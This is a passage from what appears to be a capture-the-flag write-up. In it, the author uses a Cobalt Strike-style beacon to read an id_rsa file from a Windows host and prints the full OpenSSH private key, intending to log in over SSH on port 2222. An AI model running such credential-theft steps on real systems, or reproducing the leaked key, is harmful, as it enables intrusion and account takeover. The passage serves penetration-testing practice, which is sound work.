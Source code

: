 there is Backups dir but Access denied.

![alt text](../assets/images/voleur29.png)

but we have id_rsa

lets grab it and port 2222 was open lets connect there

```bash
[07/05 20:56:30] beacon> powerpick type "C:\IT\Third-Line Support\id_rsa"
[07/05 20:56:30] [*] Tasked beacon to run: type "C:\IT\Third-Line Support\id_rsa" (unmanaged)
[07/05 20:56:30] [+] host called home, sent: 137984 bytes
[07/05 20:56:33] [+] received output:
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

```
